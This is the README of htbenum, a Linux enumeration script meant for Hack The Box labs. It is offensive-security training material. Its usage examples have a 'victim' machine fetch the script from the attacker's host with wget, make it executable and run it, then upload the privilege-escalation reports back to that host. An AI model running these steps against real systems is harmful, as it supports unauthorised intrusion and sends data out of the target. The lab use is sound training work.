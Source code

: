 # htbenum
*A Linux enumeration script for Hack The Box*

![GitHub](https://img.shields.io/github/license/SolomonSklash/htbenum.svg?style=flat-square)
![Github language](https://img.shields.io/github/languages/top/SolomonSklash/htbenum.svg?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/SolomonSklash/htbenum.svg?style=flat-square)
![Github contributors](https://img.shields.io/github/contributors/SolomonSklash/htbenum.svg?style=flat-square)

This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review. It also has a builtin web server to host the tools and upload reports back to the host machine.

**Pull requests/suggestions welcome!**

![](screenshot01.png)

### Features
* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Builtin webserver for hosting tools and uploading completed reports
* Automatic tool download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both
* Checks for Python 2 and 3 and lets you know which scripts will be skipped if Python is missing

### Usage
```
./htbenum.sh [-u] -i IP -p port [-o directory] [-w] [-r]

Example:
         Host machine: root@kali:~/htbenum# ./htbenum.sh -u
         Host machine: root@kali:~/htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w
         Victim machine: www-data@victim:/tmp$ wget http://10.10.14.1:80/htbenum.sh
         Victim machine: www-data@victim:/tmp$ chmod +x ./htbenum.sh
         Victim machine: www-data@victim:/tmp$ ./htbenum.sh -i 10.10.14.1 -p 80 -r

 Parameters:
         -h - View help and usage.
         -i IP - IP address of the listening web server used for upload and download.
         -p port - TCP port of the listening web server used for upload and download.
         -o directory - Custom download and report creation directory (default is /tmp).
         -w - Start builtin web server for downloading files and uploading reports.
         -u - Update to the latest versions of each tool, overwriting any existing versions.
         -r - Upload reports back to the host machine web server (must support PUT requests).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh update
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start a webserver in the same directory (Apache, `python3 -m http.server 80`, `python -m SimpleHTTPServer 80`, etc).

Finally, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh 10.10.99.100 80
```
Each tool will send its output to a report file in the same directory as the `htbenum.sh` script, or whatever directory is specified by the `directory` parameter.
